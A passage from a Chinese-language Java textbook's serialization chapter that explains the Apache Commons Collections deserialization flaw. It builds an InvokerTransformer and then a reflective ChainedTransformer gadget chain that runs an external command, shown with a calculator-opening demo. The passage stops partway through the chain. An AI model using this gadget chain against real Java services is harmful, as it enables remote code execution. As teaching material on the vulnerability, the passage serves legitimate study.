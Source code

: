 也就是说，使用这个类，理论上可以执行任何方法。这样就可以利用这个类在Java中执行外部命令。

我们知道，想要在Java中执行外部命令，就需要使用Runtime.getRuntime().exec(cmd)的形式。我们想办法通过以上工具类实现这个功能。

首先，通过InvokerTransformer的构造函数设置我们要执行的方法和参数：


 ### 第12章 序列化
```java
Transformer transformer = new InvokerTransformer("exec",
        new Class[]{String.class},
        new Object[]{"open /Applications/Calculator.app"});
```
通过构造函数，我们设定方法名为exec，执行的命令为open /Applications/Calculator.app，即打开Mac上面的计算器（Windows下的命令：C:\\Windows\\System32\\calc.exe ）。

然后，通过InvokerTransformer实现对Runtime类的实例化：
```java
transformer.transform(Runtime.getRuntime());
```

![image](https://github.com/user-attachments/assets/d4f6edc2-5268-47e7-bc23-4f29f12b315e)


运行程序后，会执行外部命令，打开Mac上的计算器程序，如图12 - 6所示。
（此处文字描述图12 - 6内容：展示代码编辑界面及打开的计算器界面，代码实现利用InvokerTransformer执行命令打开计算器  ）

至此，我们知道可以利用InvokerTransformer来调用外部命令了。那么是不是只需要把一个自定义的InvokerTransformer序列化成字符串，然后反序列化，就可以实现执行远程命令？

先将transformer对象序列化到文件中，再从文件中读取出来，并且执行其transform方法，这样就实现了攻击。攻击结果如图12 - 7所示。
（此处文字描述图12 - 7内容：展示序列化和反序列化相关代码及打开的计算器界面  ）

![image](https://github.com/user-attachments/assets/7df2124d-da6d-4d6f-8592-07a9ee4bb678)


#### 2. 你以为这就完了
如果事情只有这么简单，那么这个漏洞应该早就被发现了。想要真的实现攻击，还有几件事要做。

因为不会有人真的编写newTransformer.transform(Runtime.getRuntime())这样的代码。如果没有这行代码，那么还能实现执行外部命令吗？

这就要利用Commons Collections中提供的另一个工具了，那就是ChainedTransformer，这个类是Transformer的实现类。

ChainedTransformer类提供了一个transform方法，它的功能是遍历iTransformers数组，然后依次调用其transform方法，并且每次都返回一个对象，这个对象可以作为下一次调用的参数。
```java
public Object transform(Object object) {
    for (int i = 0; i < iTransformers.length; i++) {
        object = iTransformers[i].transform(object);
    }
    return object;
}
```

我们可以利用这个特性实现和transformer.transform(Runtime.getRuntime())同样的功能：
```java
Transformer[] transformers = new Transformer[]{
    //通过内置的ConstantTransformer来获取Runtime类
    new ConstantTransformer(Runtime.class),
    //反射调用getMethod方法，然后getMethod方法再反射调用getRuntime方法，返回Runtime.getRuntime()方法
    new InvokerTransformer("getMethod",
        new Class[]{String.class, Class[].class },
        new Object[]{"getRuntime", new Class[0] }),
    //反射调用invoke方法，然后反射执行Runtime.getRuntime()方法，返回Runtime实例化对象
    new InvokerTransformer("invoke",
        new Class[]{Object.class, Object[].class },
        new Object[]{null, new Object[0] }),
    //反射调用exec方法
    new InvokerTransformer("exec",
        new Class[]{String.class },
        new Object[]{"open /Applications/Calculator.app"})
```